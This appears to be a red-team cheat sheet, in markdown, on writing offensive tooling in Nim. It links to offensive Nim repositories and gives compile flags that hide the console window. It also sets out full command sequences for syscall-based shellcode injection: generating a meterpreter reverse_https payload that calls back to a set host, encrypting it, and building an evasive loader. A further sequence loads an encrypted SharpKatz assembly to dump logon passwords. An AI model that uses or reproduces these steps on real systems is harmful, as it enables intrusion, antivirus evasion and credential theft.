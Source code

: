# Nim

* [https://github.com/byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)
* [https://github.com/ajpc500/NimExamples](https://github.com/ajpc500/NimExamples)
* [https://huskyhacks.dev/2021/07/17/nim-exploit-dev/](https://huskyhacks.dev/2021/07/17/nim-exploit-dev/)




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ sudo apt install nim -y
Or
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

Dependencies:

```
Nim > nimble install winim nimcrypto zippy
```




## Compilation

Basic:

```
Nim > nim c program.nim
```

To not popup the console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passC=-flto --passL=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```

Add the needed relocation section to the resulting executable (from Windows):

```
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols program.nim
```




## Inject Shellcode



### NimlineWhispers

* [https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/](https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/)
* [https://github.com/ajpc500/NimlineWhispers](https://github.com/ajpc500/NimlineWhispers)
* [https://github.com/snovvcrash/NimlineWhispers](https://github.com/snovvcrash/NimlineWhispers)

How-to:

1. Generate a nim header with syscalls definitions (function names randomized): `python3 NimlineWhispers.py --randomise`.
2. Modify [*shellcode_bin.nim*](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_bin.nim) template to fit new function names.
3. Generate a shellcode of your choice, put it into the template and compile the binary: `nim c -d=mingw --app=console --cpu=amd64 shellcode_bin.nim`.


#### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim)

```
 # Generate a shellcode
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.16.18 LPORT=443 -e x64/xor -b '\x00' -f csharp
 # Copy the shellcode into the 1st template and compile
$ nim c encrypt_shellcode.nim
 # Encrypt the shellcode and write contents into a file
$ ./encrypt_shellcode 'Passw0rd!' b64.txt
 # Copy encrypted shellcode into the 2nd template and compile
$ cat b64.txt | xclip -i -sel c
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_shellcode_loader_syscalls.nim
```




## Execute C# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)
* [https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)

```
$ pwsh -exec bypass
PS > . ./CSharpToNimByteArray.ps1
PS > CSharpToNimByteArray -inputfile csharp.exe
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols execute_assembly_bin.nim
```



### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim)

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_assembly_loader.nim
$ ./encrypt_assembly 'Passw0rd!' SharpKatz.exe b64.txt
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```

